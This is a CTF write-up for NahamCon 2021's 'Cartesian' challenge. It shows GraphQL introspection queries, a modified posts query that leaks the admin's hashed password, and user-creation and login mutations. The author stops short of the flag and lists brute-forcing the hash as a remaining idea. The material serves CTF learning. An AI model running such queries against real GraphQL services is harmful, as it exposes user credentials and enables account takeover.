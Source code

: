 # Nahamcon CTF 2021

## Cartesian

This challenge was part of the mission path.

The website is a blog kind of web UI. There's a graphql endpoint in `/graphql`. I didn't know about graphql and had to do my own research. There were quite a few past CTFs playing with this. [This resource](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/) was useful.

Turns out there are various ways to do instrospection, because the introspection features are still enabled on that challenge endpoint. For instance, querying for types returns:

```
"data":{"__schema":{"types":[{"name":"__TypeKind"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"Query"},{"name":"Post"},{"name":"User"},{"name":"__Schema"},{"name":"__Type"},{"name":"__Directive"},{"name":"__DirectiveLocation"},{"name":"Mutation"},{"name":"Boolean"},{"name":"Int"},{"name":"String"},{"name":"Auth"},{"name":"__Field"}
```

I then looked for existing queries via the following request

```
{"query":"{__type(name: \"Query\") {name    fields {      name type { name    kind }}}}"}
```

The output reveals there's a `flag` scalar in GraphQL:

```
{"name":"flag","type":{"kind":"SCALAR","name":"String"}},
```

However a `{flag}` query claims only the admin can read it.

I dumped fully the graphql (kudos to https://apis.guru/graphql-voyager/) and explored types and type comments. I noticed a `password` field on `User`, interesting. Since the admin had posted blogs on the instance, I just modified the blog retrieving query to also dump the admin password:


```
{
"operationName":"UserQuery","variables":{},"query":"query UserQuery {\n  posts {\n    id\n    name\n    image\n    content\n    author {\n      username\n     password  __typename\n    }\n    __typename\n  }\n}\n"
}
```

That query leaks out admin password: `52a9715ba147f750d0751aeccc22b8cc2ff7a9db`. The graphql comments on the User database hints that this is `sha1(password:seed)`

I then looked into graphql mutations:

```
{"query":"mutation {createUser(username: \"foo\", password:\"barbar\"){id username password}}"}
```

Creates a User.

And:

```
{"query":"mutation {authenticateUser(username: \"foo\", password:\"password\"){token}}"}
```

authenticates the user. Checking what's returned, it's a JWT token. (you present it with `Authentication: Bearer <token>`)

Summarizing:

* There's a flag that can be dumped if I present an Admin auth token.
* I know the admin hashed password and its format. I do not know the seed.
* I can create an arbitrary amount of users / passwords
* I can log in as those users
* I can post content as those users.
* Posting content does not seem to trigger loading of images or links behind the scenes.

I was stuck after that. Remaining ideas:

* Identify a graphql injection path.
* Somehow go the crypto way and find a way to bruteforce the admin password
